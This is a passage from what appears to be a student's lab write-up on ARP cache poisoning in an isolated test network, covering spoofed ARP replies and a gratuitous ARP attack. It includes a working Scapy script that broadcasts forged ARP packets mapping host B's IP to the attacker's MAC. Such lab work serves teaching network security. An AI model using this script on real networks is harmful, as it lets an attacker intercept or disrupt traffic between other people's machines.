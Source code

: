###### Scenario 1: B IP in A's Cache

To place B Ip in A cache, we can send a ping packet. Viewing A's cache table after, we see that B is mapped to its correct MAC.

![](./screenshots/arp-2.png)

Now, if we send the packet using the python script above, we see that the cache table gets updated, and the MAC address for B's IP is changed to MAC M, that of the attacker.

![](./screenshots/arp-3.png)

###### Scenario 2: B IP not in A's Cache

Sending the packet to A with the ARP cache empty does nothing, and the attack doesn't work. The ARP table remains empty.

> Therefore, we can conclude that ARP replies aren't accepted by tables if there is no entry already for that IP address in the table.

> The same conclusion is made regarding IP forwarding as Task 1.A.

### Task 1.C: ARP Gratuitous Messages

> This attack poisons the cache of all the hosts on the network, so both host A and host B recieve this message.

This type of message goes into the network and tells everyone that it is the machine with IP B, and to reach me, use MAC M. This type can only update the entries in a cache table, not add new ones.

```python
from scapy.all import *

A_IP = "10.9.0.5"
B_IP = "10.9.0.6"
M_IP = "10.9.0.105"

A_MAC = "02:42:0a:09:00:05"
B_MAC = "02:42:0a:09:00:06"
M_MAC = "02:42:0a:09:00:69"
broadcast_MAC = "ff:ff:ff:ff:ff:ff"

# Ethernet layer. Sending a packet from M to A.
E = Ether(src=M_MAC, dst= broadcast_MAC)

# ARP layer. Sending a packet from M to A with B IP AND M MAC.
A = ARP(hwsrc=M_MAC, psrc=B_IP, hwdst=broadcast_MAC, pdst=B_IP, op=2)

pkt = E/A
sendp(pkt, iface="eth0")
```
